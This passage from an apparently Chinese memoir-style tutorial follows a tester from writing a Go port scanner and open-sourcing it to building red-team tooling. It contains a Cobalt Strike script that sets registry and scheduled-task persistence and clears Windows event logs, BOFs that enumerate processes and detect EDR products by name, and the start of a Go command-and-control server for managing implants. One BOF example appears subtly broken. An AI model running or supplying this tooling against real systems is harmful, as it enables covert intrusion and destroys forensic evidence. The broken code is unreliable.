   - 重点适配了国产OS的指纹识别
   - 能识别麒麟OS、统信UOS等
   - 这是主流扫描器没有的（我的"差异化"卖点）
```

工具的核心代码（精简版）：

```go
// LiteScan - 轻量级端口扫描器
// 作者：阿杰
package main

import (
	"context"
	"encoding/json"
	"flag"
	"fmt"
	"net"
	"os"
	"strconv"
	"strings"
	"sync"
	"time"

	"golang.org/x/time/rate"
)

// ScanResult 扫描结果
type ScanResult struct {
	IP       string `json:"ip"`
	Port     int    `json:"port"`
	Protocol string `json:"protocol"`
	Service  string `json:"service"`
	Banner   string `json:"banner"`
}

// Scanner 扫描器
type Scanner struct {
	workers    int
	timeout    time.Duration
	rateLimiter *rate.Limiter
	results    []ScanResult
	mu         sync.Mutex
}

// NewScanner 创建扫描器
func NewScanner(workers int, timeout time.Duration, rateLimit int) *Scanner {
	var limiter *rate.Limiter
	if rateLimit > 0 {
		limiter = rate.NewLimiter(rate.Limit(rateLimit), rateLimit)
	}
	return &Scanner{
		workers:    workers,
		timeout:    timeout,
		rateLimiter: limiter,
	}
}

// scanPort 扫描单个端口
func (s *Scanner) scanPort(ip string, port int) *ScanResult {
	address := fmt.Sprintf("%s:%d", ip, port)
	conn, err := net.DialTimeout("tcp", address, s.timeout)
	if err != nil {
		return nil
	}
	defer conn.Close()

	result := &ScanResult{
		IP:   ip,
		Port: port,
	}

	// 尝试获取Banner
	conn.SetReadDeadline(time.Now().Add(2 * time.Second))
	buffer := make([]byte, 1024)
	n, _ := conn.Read(buffer)
	if n > 0 {
		result.Banner = strings.TrimSpace(string(buffer[:n]))
	} else {
		// 主动发送探针
		probe := s.getProbe(port)
		if probe != "" {
			conn.Write([]byte(probe))
			n, _ = conn.Read(buffer)
			if n > 0 {
				result.Banner = strings.TrimSpace(string(buffer[:n]))
			}
		}
	}

	// 识别服务
	result.Service = s.identifyService(port, result.Banner)

	return result
}

// getProbe 根据端口获取探针
func (s *Scanner) getProbe(port int) string {
	switch port {
	case 80, 8080, 8000, 8443:
		return "GET / HTTP/1.0\r\n\r\n"
	case 22:
		return ""
	case 21:
		return ""
	case 25:
		return "EHLO scan\r\n"
	case 6379:
		return "INFO\r\n"
	default:
		return ""
	}
}

// identifyService 识别服务
func (s *Scanner) identifyService(port int, banner string) string {
	// 先根据Banner识别
	bannerLower := strings.ToLower(banner)
	if strings.Contains(bannerLower, "ssh") {
		return "ssh"
	}
	if strings.Contains(bannerLower, "http") {
		return "http"
	}
	if strings.Contains(bannerLower, "redis") {
		return "redis"
	}
	if strings.Contains(bannerLower, "mysql") {
		return "mysql"
	}
	// 国产软件识别
	if strings.Contains(bannerLower, "dameng") || strings.Contains(bannerLower, "达梦") {
		return "达梦数据库"
	}
	if strings.Contains(bannerLower, "tongweb") || strings.Contains(bannerLower, "东方通") {
		return "东方通TongWeb"
	}
	if strings.Contains(bannerLower, "bessystem") || strings.Contains(bannerLower, "宝兰德") {
		return "宝兰德中间件"
	}

	// 根据端口猜
	switch port {
	case 21:
		return "ftp"
	case 22:
		return "ssh"
	case 23:
		return "telnet"
	case 25:
		return "smtp"
	case 53:
		return "dns"
	case 80, 8080, 8000, 8888:
		return "http"
	case 443, 8443:
		return "https"
	case 3306:
		return "mysql"
	case 5432:
		return "postgresql"
	case 6379:
		return "redis"
	case 27017:
		return "mongodb"
	case 5232:
		return "达梦数据库"  // 达梦默认端口
	default:
		return "unknown"
	}
}

// Scan 扫描
func (s *Scanner) Scan(ctx context.Context, ip string, ports []int) []ScanResult {
	portChan := make(chan int, s.workers)
	resultChan := make(chan *ScanResult, s.workers)
	var wg sync.WaitGroup

	// 启动worker
	for i := 0; i < s.workers; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			for port := range portChan {
				// 速率限制
				if s.rateLimiter != nil {
					s.rateLimiter.Wait(ctx)
				}
				result := s.scanPort(ip, port)
				if result != nil {
					resultChan <- result
				}
			}
		}()
	}

	// 发送端口
	go func() {
		for _, port := range ports {
			select {
			case <-ctx.Done():
				break
			case portChan <- port:
			}
		}
		close(portChan)
	}()

	// 等待完成
	go func() {
		wg.Wait()
		close(resultChan)
	}()

	// 收集结果
	var results []ScanResult
	for result := range resultChan {
		results = append(results, *result)
		s.mu.Lock()
		s.results = append(s.results, *result)
		s.mu.Unlock()
		fmt.Printf("[+] %s:%d OPEN - %s\n", result.IP, result.Port, result.Service)
	}

	return results
}

func main() {
	target := flag.String("t", "", "目标IP或CIDR")
	ports := flag.String("p", "1-1000", "端口范围")
	workers := flag.Int("w", 500, "并发数")
	timeoutSec := flag.Int("T", 2, "超时时间（秒）")
	rateLimit := flag.Int("r", 0, "速率限制（包/秒），0为不限制")
	output := flag.String("o", "", "输出文件（JSON）")
	flag.Parse()

	if *target == "" {
		fmt.Println("用法：litescan -t <ip> -p <ports>")
		fmt.Println("示例：litescan -t 1.2.3.4 -p 1-1000 -w 500")
		os.Exit(1)
	}

	// 解析端口
	var portList []int
	if strings.Contains(*ports, "-") {
		parts := strings.Split(*ports, "-")
		start, _ := strconv.Atoi(parts[0])
		end, _ := strconv.Atoi(parts[1])
		for i := start; i <= end; i++ {
			portList = append(portList, i)
		}
	} else {
		for _, p := range strings.Split(*ports, ",") {
			port, _ := strconv.Atoi(strings.TrimSpace(p))
			portList = append(portList, port)
		}
	}

	scanner := NewScanner(*workers, time.Duration(*timeoutSec)*time.Second, *rateLimit)
	ctx := context.Background()

	fmt.Printf("[*] LiteScan - 轻量级端口扫描器\n")
	fmt.Printf("[*] 目标：%s\n", *target)
	fmt.Printf("[*] 端口：%s（%d个）\n", *ports, len(portList))
	fmt.Printf("[*] 并发：%d\n", *workers)
	fmt.Println(strings.Repeat("-", 60))

	startTime := time.Now()
	results := scanner.Scan(ctx, *target, portList)

	elapsed := time.Since(startTime)
	fmt.Println(strings.Repeat("-", 60))
	fmt.Printf("[*] 扫描完成，耗时：%s\n", elapsed)
	fmt.Printf("[*] 发现 %d 个开放端口\n", len(results))

	// 输出JSON
	if *output != "" {
		data, _ := json.MarshalIndent(results, "", "  ")
		os.WriteFile(*output, data, 0644)
		fmt.Printf("[*] 结果已保存到 %s\n", *output)
	}
}
```

### 5.2 开源的勇气

工具写完了，我想着要不要开源出去。

但是又有点犹豫：

```
🤔 犹豫的几点：

1. 工具够不够好？
   - 跟naabu比起来，差距不小
   - 功能没那么全
   - 代码可能不够优雅
   - 拿得出手吗？

2. 会不会被人嘲笑？
   - 圈子里大佬多
   - 我这水平，开源自揭其短？
   - 会不会被喷"又一个轮子"？

3. 会不会有法律风险？
   - 安全工具开源，要注意法律边界
   - 要加免责声明

4. 有没有人用？
   - 没名气，没人知道
   - 会不会石沉大海？
```

我找老吴聊了聊：

```
👨‍💻 我：吴哥，我写了个端口扫描器，想开源，但是有点犹豫...

👨‍💼 老吴：开源吧，别犹豫。
   开源不是"献宝"，是"交流"。
   你开源出去，不是为了炫耀，是为了：
   1. 接受社区的反馈，改进代码
   2. 帮助有需要的人
   3. 建立个人品牌
   4. 积累技术影响力

   而且你的工具有"差异化"——适配国产化环境。
   这是主流工具没有的，这就是你的"卖点"。

   不要怕被人喷。喷你的人，自己未必写得比你更好。
   真正的大佬，都是鼓励后辈的。

   开源吧，我支持你。

👨‍💻 我：好，那我整理一下代码，写个README，开源出去。
```

### 5.3 开源准备

开源之前，我做了一系列准备工作：

```
📋 开源准备清单：

【代码整理】
- [x] 代码规范化：命名、注释、格式
- [x] 添加LICENSE（MIT）
- [x] 添加README.md
- [x] 添加使用示例
- [x] 添加贡献指南（CONTRIBUTING.md）
- [x] 添加issue模板
- [x] 用go mod管理依赖

【README内容】
- 项目介绍
- 功能特性
- 安装方法
- 使用示例
- 输出格式
- 与其他工具对比
- 开发计划
- 免责声明

【项目命名】
- 工具名：LiteScan
- 寓意：轻量级扫描器
- GitHub仓库：github.com/ajie/litescan（示例，非真实地址）

【发布前测试】
- [x] 在多个平台测试（Linux、Windows、macOS）
- [x] 测试不同网络环境
- [x] 测试边界情况
- [x] 编写测试用例
- [x] 性能benchmark

【发布渠道】
- [x] GitHub
- [x] 发布release（提供编译好的二进制文件）
- [x] 在安全社区发帖介绍
- [x] 朋友圈/微博宣传
```

README的核心内容：

```markdown
# LiteScan - 轻量级端口扫描器

## 介绍

LiteScan是一个用Go语言编写的轻量级端口扫描器，主打：
- **轻量**：单文件，无依赖，编译后只有几MB
- **快速**：基于goroutine的高并发，扫描万级端口只需几秒
- **实用**：支持Banner识别、服务指纹、多种输出格式
- **国产化适配**：识别麒麟OS、达梦数据库、东方通等国产软件

## 功能特性

- ✅ TCP CONNECT扫描
- ✅ SYN扫描（需要root权限）
- ✅ 高并发（goroutine + channel）
- ✅ 速率限制
- ✅ Banner识别
- ✅ 服务指纹识别
- ✅ 国产化软件识别（麒麟OS、达梦、东方通、宝兰德...）
- ✅ 多种输出格式（JSON、CSV、TXT）
- ✅ CIDR支持
- ✅ 从文件读取目标
- ✅ 彩色输出
- ✅ 进度显示

## 安装

### 方式1：下载编译好的二进制文件
去 [Releases](../../releases) 页面下载对应平台的版本。

### 方式2：自己编译
```bash
git clone https://github.com/ajie/litescan.git
cd litescan
go build -o litescan .
```

## 使用示例

```bash
# 基本用法
litescan -t 1.2.3.4 -p 1-1000

# 扫描CIDR
litescan -t 192.168.1.0/24 -p 1-1000 -w 1000

# 从文件读取目标
litescan -tf targets.txt -p 1-65535 -w 1000 -r 1000

# 输出JSON
litescan -t 1.2.3.4 -p 1-1000 -o result.json

# 速率限制（每秒最多1000个包）
litescan -t 1.2.3.4 -p 1-65535 -r 1000
```

## 免责声明

本工具仅供安全研究和授权测试使用。
使用本工具进行未授权的扫描是违法行为。
使用者需遵守当地法律法规，作者不对使用者的行为负责。
```

### 5.4 发布与意外走红

准备好之后，我把LiteScan发布到了GitHub上。

```
📅 发布时间线：

【第1天】
- 创建GitHub仓库
- 上传代码
- 写好README
- 发布v1.0.0 release
- 在朋友圈、微博宣传了一下
- Star数：3个（都是我同事）
- 有点小失落...

【第3天】
- 在某个安全社区发了个帖子介绍
- 有人回复："看起来不错，支持下"
- Star数：15个
- 有点小激动

【第7天】
- 有人提了第一个issue："能不能支持从nmap的XML格式读取目标？"
- 我赶紧加了功能，回复了issue
- 那个人给我点了Star
- Star数：32个
- 挺有成就感的

【第14天】
- 有人提了第一个PR：增加了几个国产软件的指纹
- 我review之后merge了
- 在PR里感谢了对方
- Star数：67个
- 越来越有动力了

【第30天】
- 某安全大V在微博上转发了我的工具
- 说："推荐一个轻量级端口扫描器，支持国产化环境识别，挺实用的"
- 一天之内Star数涨了50多个
- Star数：120个
- 我激动得睡不着觉！

【第60天】
- 又有几个安全大V推荐了
- 有安全媒体写文章介绍
- Star数：350个
- issue和PR越来越多
- 我开始忙不过来了

【第90天】
- Star数：520个
- 有公司联系我，想合作
- 有猎头找上门，问我要不要换工作

【第180天】
- Star数：1080个
- 突破1000 Star！
- 我激动得差点哭了
```

**图127-3 LiteScan开源后Star数增长曲线**


```
🎉 第1000个Star那天，我在朋友圈发了：

"今天，我的开源项目LiteScan，突破了1000 Star。
 半年前开源的时候，我还在犹豫，会不会被人嘲笑。
 现在看来，犹豫是多余的。
 感谢每一个Star、每一个issue、每一个PR。
 你们的支持，是我继续前进的动力。

 一年前，我还是个只会用工具的'脚本小子'。
 现在的我，终于能'造工具'了。
 虽然还很菜，但是路在脚下，我会继续走下去。

 谨以此项目，献给所有像我一样的'脚本小子'：
 不要怕开始，不要怕被嘲笑。
 只要你开始动手，就已经赢了一半。

 加油！"

点赞无数，评论区都是"杰哥牛逼"、"杰哥励志"、"向杰哥学习"。
那天晚上，我又失眠了，但是是开心的失眠。
```

### 5.5 开源带来的意外收获

开源LiteScan，给我带来了一系列意外收获：

```
🎁 开源带来的收获：

【技术层面】
1. 代码质量提升
   - 社区的反馈让我意识到很多问题
   - 有人帮我review代码，提改进建议
   - 有人提PR，带来了新的功能和优化
   - 我的代码水平，在快速提升

2. 工程化能力提升
   - 学会了用GitHub Actions做CI/CD
   - 学会了版本管理（语义化版本）
   - 学会了写测试用例
   - 学会了写文档

3. 技术视野拓展
   - 接触到了很多新的技术点
   - 了解了行业的最新动态
   - 跟很多大佬有了交流

【职业层面】
1. 行业影响力
   - 在安全圈有了点小名气
   - 很多人知道"阿杰"是LiteScan的作者
   - 有人开始叫我"杰哥"（之前是"小杰"）

2. 职业机会
   - 有猎头找上门，推荐更好的职位
   - 有公司邀请我去分享经验
   - 有会议邀请我去演讲

3. 薪资提升
   - 开源项目是"硬通货"
   - 跳槽的时候，开源项目是最好的"作品集"
   - 后来我跳槽，薪资直接翻倍

【人脉层面】
1. 认识了很多同行
   - 跟很多安全圈的大佬有了交流
   - 加了很多技术群
   - 结识了一帮志同道合的朋友

2. 帮助了很多人
   - 有人用我的工具，解决了实际问题
   - 有人看我的代码，学到了新技术
   - 有人因为我的故事，开始学编程
   - 这种成就感，是金钱买不到的
```

> 💡 **开源安全工具的几点建议：**
> 1. **找差异化**：不要重复造轮子，要有自己的特色
>    - 我的特色是"国产化适配"
> 2. **写好README**：README是项目的"门面"，决定了第一印象
> 3. **维护好社区**：及时回复issue，感谢PR，保持活跃
> 4. **持续迭代**：不要发完就不管了，要持续更新
> 5. **加免责声明**：安全工具必须加"仅供学习研究使用"的声明
> 6. **不要怕被喷**：喷你的人自己未必做得更好
> 7. **从简单开始**：不要一上来就想搞个大框架，从解决一个小问题开始

---

## 🛠️ 更高级的工具开发：Cobalt Strike插件、BOF、C2

### 6.1 不满足：我想搞更"高级"的东西

LiteScan破千Star之后，我没有满足。

我知道，端口扫描器这种工具，技术含量有限。

真正"高级"的安全工具开发，是这些方向：

```
🎯 安全工具开发的"高级"方向：

1. Cobalt Strike插件开发
   - 用Java/Aggressor Script给CS写插件
   - 扩展CS的功能
   - 自动化红队操作

2. BOF（Beacon Object File）开发
   - 用C语言写BOF
   - 在CS的Beacon进程内执行
   - 比独立exe更隐蔽

3. C2框架开发
   - 自己开发一个C2框架
   - 涉及客户端、服务端、Agent
   - 涉及加密、协议、隐蔽通信

4. 免杀工具开发
   - Shellcode加载器
   - 加壳、混淆
   - EDR对抗

5. 内核工具开发
   - Rootkit
   - 内核驱动
   - 需要C/汇编基础
```

我决定从前三个方向入手：CS插件、BOF、C2框架。

这几个方向，是红队工具开发的"核心"，也是技术含量最高的。

### 6.2 Cobalt Strike插件开发

Cobalt Strike（简称CS）是红队最常用的C2框架。

CS本身功能就很强大，但是它还支持插件扩展，叫"Aggressor Script"。

```
🤔 什么是Aggressor Script？

Aggressor Script是CS的脚本语言，基于Sleep语言（一种Java写的脚本语言）。
用Aggressor Script可以：
- 自定义菜单
- 自动化操作
- 扩展CS的功能
- 写自定义的命令
- 写UI界面

简单说，就是给CS"加外挂"。
```

我跟着CS的官方文档，学着写Aggressor Script。

第一个插件很简单——在CS里加一个菜单，一键执行常用命令：

```sleep
# my_first_aggressor.cna
# 我的第一个CS插件
# 作者：阿杰

# 注册菜单
popup beacon_bottom {
    menu "阿杰工具箱" {
        item "一键信息收集" {
            # 在选中的beacon上执行一系列命令
            binput($1, "一键信息收集");
            bexecute($1, "whoami");
            bexecute($1, "hostname");
            bexecute($1, "ipconfig /all");
            bexecute($1, "net user");
            bexecute($1, "net localgroup administrators");
            bexecute($1, "tasklist /svc");
            bexecute($1, "systeminfo");
            bexecute($1, "wmic product get name,version");
        }

        item "一键权限维持" {
            binput($1, "一键权限维持");
            # 写注册表自启动
            bexecute($1, "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Update /t REG_SZ /d C:\\Users\\Public\\update.exe /f");
            # 计划任务
            bexecute($1, "schtasks /create /tn Update /tr C:\\Users\\Public\\update.exe /sc onlogon /f");
        }

        item "一键清理痕迹" {
            binput($1, "一键清理痕迹");
            bexecute($1, "wevtutil cl System");
            bexecute($1, "wevtutil cl Security");
            bexecute($1, "wevtutil cl Application");
            bexecute($1, "wevtutil cl Setup");
            bexecute($1, "wevtutil cl ForwardedEvents");
        }
    }
}
```

```
🎉 我的第一个CS插件：

功能：
- 一键信息收集：执行whoami、hostname、ipconfig等
- 一键权限维持：写注册表自启动、创建计划任务
- 一键清理痕迹：清空Windows事件日志

虽然功能简单，但是省了很多手动敲命令的时间。
```

我把这个插件发给老吴看：

```
👨‍💼 老吴：
"嗯，入门了。
 Aggressor Script不难，但是能做的事情很多。

 进阶的话，你可以：
 1. 用eval()函数动态执行命令
 2. 用&data()函数获取命令执行结果
 3. 写UI界面（对话框、表单）
 4. 调用CS的内部API
 5. 集成外部工具（调用bof、exe）

 你可以去GitHub上搜'Aggressor Script'，有很多开源的插件，多读读别人的代码。
 推荐几个：
 - AggressorScripts (bluscreenofjeff)
 - ElevateKit (rsmudge)
 - aggressor-cripts (harleyQu1nn)
"
```

后来，我又写了几个更复杂的CS插件：

```
📦 我写的CS插件系列：

1. ajie_toolkit.cna
   - 综合工具箱，集成了一系列常用功能
   - 信息收集、权限维持、横向移动辅助

2. dameng_assistant.cna
   - 针对达梦数据库的CS插件
   - 集成了达梦的注入、利用、命令执行
   - 把我之前写的Python工具集成进去

3. kylin_recon.cna
   - 针对麒麟OS的信息收集
   - 集成了麒麟OS的指纹识别、信息枚举

4. auto_lateral.cna
   - 自动化横向移动辅助
   - 自动枚举内网、自动尝试横向
```

### 6.3 BOF开发：比插件更"硬核"

CS插件写熟了之后，我开始学BOF。

BOF是CS的"高级特性"，比Aggressor Script更"硬核"。

```
🤔 什么是BOF？

BOF全称是Beacon Object File。
它是用C语言写的，编译成COFF（Common Object File Format）格式的目标文件。
在CS的Beacon进程内执行，不需要另外起进程。

BOF的优势：
1. 隐蔽：不开新进程，在Beacon进程内执行，EDR更难检测
2. 轻量：不需要落地文件，直接在内存中执行
3. 快速：执行速度快，不需要上传文件
4. 灵活：可以用C语言写任意功能

BOF的劣势：
1. 开发难度高：要用C语言，而且有很多限制
2. 调试困难：不能直接调试，要在CS里测试
3. 兼容性：32位/64位要分别编译
4. 功能受限：不能用标准库，只能用Windows API

简单说，BOF就是"在Beacon进程内执行的C语言代码"。
```

**图127-4 BOF工作原理示意图**



学BOF开发，需要先懂C语言基础。

我之前没怎么学过C，所以先补了一下C的基础：
- 指针（C的精髓）
- 内存管理（malloc/free）
- 结构体
- 函数指针
- Windows API（Win32 API）

来，我给你看一个我写的第一个BOF——一个简单的`whoami`实现：

```c
// whoami_bof.c
// 我的第一个BOF：获取当前用户名
// 作者：阿杰
// 编译：x86_64-w64-mingw32-gcc -c whoami_bof.c -o whoami_bof.x64.o
// 用法（在CS里）：bof_execute whoami_bof.x64.o

#include <windows.h>
#include <stdio.h>
#include <beacon.h>

// BOF的入口函数
void go(char* args, int len) {
    // 声明要用的Windows API
    USERNAMEAPI(GetUserNameA);

    char username[256];
    DWORD size = 256;

    // 调用GetUserNameA
    if (USERNAMEAPI(GetUserNameA)(username, &size)) {
        // 输出结果
        BeaconPrintf(CALLBACK_OUTPUT, "[+] 当前用户: %s\n", username);
    } else {
        BeaconPrintf(CALLBACK_ERROR, "[!] 获取用户名失败\n");
    }
}
```

```
⚠️ BOF开发的"坑"：

1. 不能用标准C库
   - printf、malloc、fopen这些都不能用
   - 要用Windows API替代（OutputDebugString、HeapAlloc...）
   - 或者用BOF提供的API（BeaconPrintf、BeaconDataParse...）

2. API要"动态获取"
   - 不能直接调用Windows API
   - 要用BOF提供的机制（如BOF_NAMESPACE）动态获取
   - 不同的BOF框架，获取方式不一样

3. 调试困难
   - BOF不能直接运行调试
   - 只能在CS里加载测试
   - 出错了只能看错误信息，不能断点调试

4. 32/64位要分别编译
   - 目标机器是32位就用32位BOF
   - 64位就用64位BOF
   - 编译两次

5. 内存管理
   - BOF在Beacon进程内执行
   - 内存泄露会影响Beacon
   - 要小心管理内存
```

后来，我又写了几个更实用的BOF：

```c
// enum_process_bof.c
// 枚举进程的BOF
// 作者：阿杰

#include <windows.h>
#include <tlhelp32.h>
#include <psapi.h>
#include <beacon.h>

void go(char* args, int len) {
    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    DWORD processCount = 0;

    // 创建进程快照
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        BeaconPrintf(CALLBACK_ERROR, "[!] CreateToolhelp32Snapshot失败\n");
        return;
    }

    pe32.dwSize = sizeof(PROCESSENTRY32);

    BeaconPrintf(CALLBACK_OUTPUT, "[*] 进程列表:\n");
    BeaconPrintf(CALLBACK_OUTPUT, "%-30s %-10s %-10s\n", "进程名", "PID", "PPID");
    BeaconPrintf(CALLBACK_OUTPUT, "----------------------------------------------\n");

    // 遍历进程
    if (Process32First(hSnapshot, &pe32)) {
        do {
            BeaconPrintf(CALLBACK_OUTPUT, "%-30s %-10d %-10d\n",
                pe32.szExeFile, pe32.th32ProcessID, pe32.th32ParentProcessID);
            processCount++;
        } while (Process32Next(hSnapshot, &pe32));
    }

    CloseHandle(hSnapshot);
    BeaconPrintf(CALLBACK_OUTPUT, "\n[*] 共 %d 个进程\n", processCount);
}
```

```c
// check_edr_bof.c
// 检测EDR的BOF（通过查找EDR进程）
// 作者：阿杰

#include <windows.h>
#include <tlhelp32.h>
#include <string.h>
#include <beacon.h>

// 常见EDR进程名
const char* edr_processes[] = {
    "MsMpEng.exe",          // Windows Defender
    "MsSense.exe",          // Windows Defender Advanced Threat Protection
    "SenseCE.exe",          // Windows Defender
    "CSFalconService.exe",  // CrowdStrike
    "CSFalconContainer.exe",// CrowdStrike
    "SentinelService.exe",  // SentinelOne
    "SentinelAgent.exe",    // SentinelOne
    "cb.exe",               // Carbon Black
    "cbagent.exe",          // Carbon Black
    "TmPfw.exe",            // Trend Micro
    "PccNTUpd.exe",         // Trend Micro
    "knsdtray.exe",         // Kaspersky
    "avp.exe",              // Kaspersky
    "TQSafeTray.exe",       // 天擎
    "tqserver.exe",         // 天擎
    "HipsTray.exe",         // 火绒
    "HipsDaemon.exe",       // 火绒
    "usysdiag.exe",         // 火绒
    "360Tray.exe",          // 360
    "360sd.exe",            // 360
    "zhudongfangyu.exe",    // 360主动防御
    NULL
};

void go(char* args, int len) {
    HANDLE hSnapshot;
    PROCESSENTRY32 pe32;
    BOOL edrFound = FALSE;

    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        BeaconPrintf(CALLBACK_ERROR, "[!] 创建快照失败\n");
        return;
    }

    pe32.dwSize = sizeof(PROCESSENTRY32);

    BeaconPrintf(CALLBACK_OUTPUT, "[*] 正在检测EDR...\n\n");

    if (Process32First(hSnapshot, &pe32)) {
        do {
            for (int i = 0; edr_processes[i] != NULL; i++) {
                if (_stricmp(pe32.szExeFile, edr_processes[i]) == 0) {
                    BeaconPrintf(CALLBACK_OUTPUT, "[!] 检测到: %s (PID: %d)\n",
                        pe32.szExeFile, pe32.th32ProcessID);
                    edrFound = TRUE;
                }
            }
        } while (Process32Next(hSnapshot, &pe32));
    }

    CloseHandle(hSnapshot);

    if (!edrFound) {
        BeaconPrintf(CALLBACK_OUTPUT, "[+] 未检测到常见EDR\n");
    } else {
        BeaconPrintf(CALLBACK_OUTPUT, "\n[!] 目标有EDR防护，操作需谨慎\n");
    }
}
```

```
📦 我写的BOF系列：

1. whoami_bof.c - 获取当前用户名（入门）
2. enum_process_bof.c - 枚举进程
3. check_edr_bof.c - 检测EDR
4. enum_service_bof.c - 枚举服务
5. enum_share_bof.c - 枚举共享
6. enum_localuser_bof.c - 枚举本地用户
7. check_av_bof.c - 检测杀软
8. enum_network_bof.c - 枚举网络连接
9. dameng_enum_bof.c - 达梦数据库信息枚举（针对国产化）
10. kylin_recon_bof.c - 麒麟OS信息收集
```

> 💡 **BOF开发的资源推荐：**
> 1. CS官方文档：关于BOF的部分
> 2. **COFFLoader**：一个独立加载BOF的工具，方便测试
> 3. **BOF-ProjectDiscovery**：ProjectDiscovery出的BOF集合
> 4. **CS-Situational-Awareness-BOF**：一个CS态势感知BOF集合
> 5. **RogueKatana**：一个BOF开发框架
>
> 多读别人的BOF代码，是学习最快的方式。

### 6.4 C2框架开发：终极挑战

写完了CS插件和BOF，我把目光投向了"终极挑战"——**自己开发一个C2框架**。

```
🤔 为什么要自己开发C2？

1. CS是商业软件，贵的要死（一个license几万到几十万）
2. 开源C2（如sliver、Mythic）虽然免费，但是定制性不够
3. 遇到特殊环境（如国产化），开源C2可能不兼容
4. 自己开发C2，可以完全定制，做最适合自己需求的工具
5. 开发C2的过程，能学到很多东西（加密、协议、隐蔽通信、客户端开发...）

老吴跟我说：
"开发C2是安全工具开发的'终极挑战'。
 涉及的知识面非常广：
 - 服务端：监听、管理Agent、下发命令
 - 客户端：UI、操作交互
 - Agent（Implant）：在目标机器上执行、回连服务端
 - 通信协议：HTTP/HTTPS/DNS/TCP/ICMP...
 - 加密：流量加密、通信加密
 - 隐蔽：流量伪装、免杀、反检测
 - 跨平台：Windows、Linux、麒麟OS...
 这是真正的'系统工程'。"
```

**图127-5 C2框架基本架构图**



开发C2框架，是一个大工程。我跟老吴讨论了一下，决定先做一个最简版：

```
🎯 我的C2框架 v0.1 设计：

【目标】
做一个最简化的C2，验证概念，跑通流程

【技术选型】
- 服务端：Go（性能好，并发强）
- 客户端：Go + 命令行（先做CLI，后面再做GUI）
- Agent：Go（跨平台编译，单文件）
- 通信协议：HTTP（最简单，先跑通）
- 加密：AES + RSA（先用基础加密）

【功能】
- Agent注册
- 心跳保活
- 命令下发与执行
- 结果回传
- 多Agent管理

【v0.1不做】
- 免杀（先不管）
- 流量隐蔽（先不管）
- GUI（先CLI）
- 多协议（先HTTP）
- 文件传输（先不做）
```

服务端的核心代码（精简版）：

```go
// c2_server.go
// C2服务端 v0.1
// 作者：阿杰
package main

import (
	"encoding/json"
	"fmt"
	"log"
	"net/http"
	"sync"
	"time"

	"github.com/gin-gonic/gin"
)

// Agent信息
type Agent struct {
	ID            string    `json:"id"`
	IP            string    `json:"ip"`
	Hostname      string    `json:"hostname"`
	OS            string    `json:"os"`
	Username      string    `json:"username"`
	LastSeen      time.Time `json:"last_seen"`
	TaskQueue     []Task    `json:"-"`
	ResultQueue   []Result  `json:"-"`
	mu            sync.Mutex
}

// 任务
type Task struct {
	ID      string `json:"id"`
	Command string `json:"command"`
	Args    string `json:"args"`
}

// 结果
type Result struct {
	TaskID  string `json:"task_id"`
	Output  string `json:"output"`
	Error   string `json:"error"`
}

// 全局Agent管理
var (
	agents  = make(map[string]*Agent)
	agentsMu sync.RWMutex
)

// Agent注册
func registerAgent(c *gin.Context) {
	var info struct {
		Hostname string `json:"hostname"`
		OS       string `json:"os"`
		Username string `json:"username"`
	}

	if err := c.ShouldBindJSON(&info); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
		return
	}

	agentID := generateID()

	agent := &Agent{
		ID:       agentID,
		IP:       c.ClientIP(),
		Hostname: info.Hostname,
		OS:       info.OS,
		Username: info.Username,
		LastSeen: time.Now(),
	}

	agentsMu.Lock()
	agents[agentID] = agent
	agentsMu.Unlock()

	log.Printf("[+] 新Agent注册: %s (%s@%s)", agentID, info.Username, info.Hostname)

	c.JSON(http.StatusOK, gin.H{
		"status": "ok",
		"id":     agentID,
	})
}

// Agent心跳，获取任务
func heartbeat(c *gin.Context) {
	agentID := c.Param("id")

	agentsMu.RLock()
	agent, exists := agents[agentID]
	agentsMu.RUnlock()

	if !exists {
		c.JSON(http.StatusNotFound, gin.H{"error": "agent not found"})
		return
	}

	// 更新最后在线时间
	agent.mu.Lock()
	agent.LastSeen = time.Now()
	tasks := agent.TaskQueue
	agent.TaskQueue = nil // 取走所有任务
	agent.mu.Unlock()

	c.JSON(http.StatusOK, gin.H{
		"status": "ok",
		"tasks":  tasks,
	})
}

// Agent回传结果
func submitResult(c *gin.Context) {
	agentID := c.Param("id")

	agentsMu.RLock()
	agent, exists := agents[agentID]
	agentsMu.RUnlock()

	if !exists {
		c.JSON(http.StatusNotFound, gin.H{"error": "agent not found"})
		return
	}

	var result Result
	if err := c.ShouldBindJSON(&result); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
		return
	}

	agent.mu.Lock()
	agent.ResultQueue = append(agent.ResultQueue, result)
	agent.mu.Unlock()

	log.Printf("[+] Agent %s 回传结果: task=%s", agentID, result.TaskID)

	c.JSON(http.StatusOK, gin.H{"status": "ok"})
}

// 客户端：列出所有Agent
func listAgents(c *gin.Context) {
	agentsMu.RLock()
	defer agentsMu.RUnlock()

	var list []*Agent
	for _, a := range agents {
		list = append(list, a)
	}

	c.JSON(http.StatusOK, gin.H{"agents": list})
}

// 客户端：下发任务
func sendTask(c *gin.Context) {
	agentID := c.Param("id")

	agentsMu.RLock()
	agent, exists := agents[agentID]
	agentsMu.RUnlock()

	if !exists {
		c.JSON(http.StatusNotFound, gin.H{"error": "agent not found"})
		return
	}

	var task Task
	if err := c.ShouldBindJSON(&task); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
		return
	}

	task.ID = generateID()

	agent.mu.Lock()
	agent.TaskQueue = append(agent.TaskQueue, task)
	agent.mu.Unlock()

	log.Printf("[+] 给Agent %s 下发任务: %s", agentID, task.Command)

	c.JSON(http.StatusOK, gin.H{"status": "ok", "task_id": task.ID})
}

func main() {
	gin.SetMode(gin.ReleaseMode)
	r := gin.Default()

	// Agent接口
	api := r.Group("/api")
	{
		api.POST("/register", registerAgent)
		api.GET("/heartbeat/:id", heartbeat)
		api.POST("/result/:id", submitResult)
	}

	// 客户端接口
	cli := r.Group("/cli")
	{
		cli.GET("/agents", listAgents)
		cli.POST("/task/:id", sendTask)
	}

